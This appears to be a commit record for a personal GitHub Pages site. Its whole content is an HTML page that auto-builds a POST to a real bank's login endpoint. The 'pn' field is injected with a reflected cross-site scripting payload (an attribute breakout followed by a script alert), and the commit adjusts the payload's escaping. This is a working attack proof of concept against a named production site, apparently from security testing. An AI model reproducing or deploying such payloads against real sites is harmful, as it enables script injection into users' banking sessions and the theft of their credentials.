

Before and after one commit to ryanfadholi/ryanfadholi.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,7 +1,7 @@
 <html>
  <body>
  <form action="https://brismart.bri.co.id/login" method="POST">
- <input type="text" name="pn" value='\"><script>alert("test");</script>' />
+ <input type="text" name="pn" value="&quot;><script>alert("test");</script>" />
  <input type="hidden" name="captcha" value="1" />
  <input type="hidden" name="password" value="1" />
  <input type="submit" id="testsubmit" value="Submit request" />
```
